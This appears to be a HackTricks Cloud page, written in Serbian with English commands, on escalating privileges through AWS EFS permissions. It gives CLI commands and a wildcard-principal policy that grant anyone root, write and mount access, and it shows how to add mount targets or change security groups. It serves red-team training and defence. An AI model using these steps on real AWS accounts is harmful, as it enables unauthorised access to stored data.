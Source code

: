 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Više **informacija o EFS** u:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Zapamtite da da biste montirali EFS, morate biti u podmreži gde je EFS izložen i imati pristup njemu (grupe za bezbednost). Ako se to dešava, po defaultu, uvek ćete moći da ga montirate, međutim, ako je zaštićen IAM politikama, potrebno je da imate dodatne dozvole pomenute ovde da biste mu pristupili.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Sa bilo kojom od tih dozvola, napadač može **promeniti politiku datotečnog sistema** da **omogući pristup** ili jednostavno **izbrisati** tako da se **default pristup** dodeli.

Da biste izbrisali politiku:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Da biste to promenili:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Sa ovom dozvolom, napadač će moći da **montira EFS**. Ako dozvola za pisanje nije data podrazumevano svima koji mogu da montiraju EFS, imaće samo **pristup za čitanje**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatne dozvole `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogu se koristiti za **pisanje** unutar datotečnog sistema nakon što je montiran i za **pristup** tom datotečnom sistemu **kao root**.

**Potencijalni uticaj:** Indirektno eskaliranje privilegija pronalaženjem osetljivih informacija u datotečnom sistemu.

### `elasticfilesystem:CreateMountTarget`

Ako je napadač unutar **podmreže** gde **nema montažne tačke** EFS-a. On bi mogao jednostavno **da kreira jednu u svojoj podmreži** sa ovom privilegijom:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno privesc pronalaženjem osetljivih informacija u fajl sistemu.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

U scenariju gde napadač otkrije da EFS ima mount target u njegovoj podmreži, ali **nema sigurnosne grupe koja dozvoljava saobraćaj**, mogao bi jednostavno **promeniti to modifikovanjem odabranih sigurnosnih grupa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno privesc pronalaženjem osetljivih informacija u fajl sistemu.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
